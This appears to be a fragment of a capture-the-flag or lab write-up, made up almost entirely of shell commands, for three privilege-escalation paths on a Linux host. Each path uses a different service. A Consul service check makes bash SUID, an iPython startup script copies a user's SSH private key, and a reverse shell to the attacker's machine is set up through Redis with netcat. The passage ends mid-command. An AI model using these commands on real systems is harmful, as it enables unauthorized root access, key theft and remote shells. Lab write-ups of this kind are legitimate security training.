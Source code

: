 ```bash
git show 33a53ef9a207976d5ceceddc41a199558843bf3c
```

### Consul Privilege Escalation

```bash
echo 'chmod +s /usr/bin/bash' > /tmp/e.sh
```

```bash
curl --header "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" --request PUT -d '{"ID": "meow", "Name": "meow", "Address": "127.0.0.1", "Port": 80, "check": {"Args": ["/usr/bin/bash", "/tmp/e.sh"], "interval": "10s", "timeout": "1s"}}' http://127.0.0.1:8500/v1/agent/service/register
```

```bash
bash -p
```

### iPython Privilege Escalation

```bash
mkdir -m 777 /opt/scripts_review/profile_default/startup -p
```

```bash
echo "import os;os.system('cat /.ssh/id_rsa > ~/dan_smith.key')" > /opt/scripts_review/profile_default/startup/poc.py
```

cd to the home directory and we get a “.key” file

### Redis Privilege Escalation

Enumerate for password first, on the attacking machine:

```bash
rlwrap nc -nlvp 6379
```

On the target:

```bash
./redis_connector_dev
```

After getting the password, on the attacking machine:

```bash
rlwrap nc -nlvp 443
```

On the target:

```bash
echo "bash -i >& /dev/tcp/$kali_ip/443 0>&1" > /dev/shm/sh
```

```bash
redis-cli --pass $pass=Gqq
```
